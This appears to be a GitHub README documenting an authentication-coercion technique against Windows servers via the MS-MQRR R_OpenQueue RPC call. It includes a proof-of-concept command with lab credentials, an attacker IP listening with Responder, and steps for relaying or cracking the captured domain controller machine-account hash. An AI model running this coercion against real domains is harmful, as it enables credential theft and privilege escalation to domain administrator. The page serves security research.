 # MS-MQRR - Remote call to R_OpenQueue (opnum 2)

## Summary

 - **Protocol**: [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1)

 - **Protocol UUID**: 1a9134dd-7b39-45ba-ad88-44d01ca47f28

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`R_OpenQueue`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/b4b3001c-f2ff-4a17-9830-7b21af371dc4)

 - **Function operation number**: `2`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol (with uuid `1a9134dd-7b39-45ba-ad88-44d01ca47f28` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) and allows to call RPC functions of this protocol. We will then call the remote [`R_OpenQueue`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/b4b3001c-f2ff-4a17-9830-7b21af371dc4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_OpenQueue('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
void R_OpenQueue(
   [in] handle_t hBind,
   [in] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwAccess,
   [in] DWORD dwShareMode,
   [in] GUID* pClientId,
   [in] LONG fNonRoutingServer,
   [in] unsigned char Major,
   [in] unsigned char Minor,
   [in] USHORT BuildNumber,
   [in] LONG fWorkgroup,
   [out] QUEUE_CONTEXT_HANDLE_SERIALIZE* pphContext
 );
```

## References

 - Documentation of protocol [MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1

 - Documentation of function `R_OpenQueue`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/b4b3001c-f2ff-4a17-9830-7b21af371dc4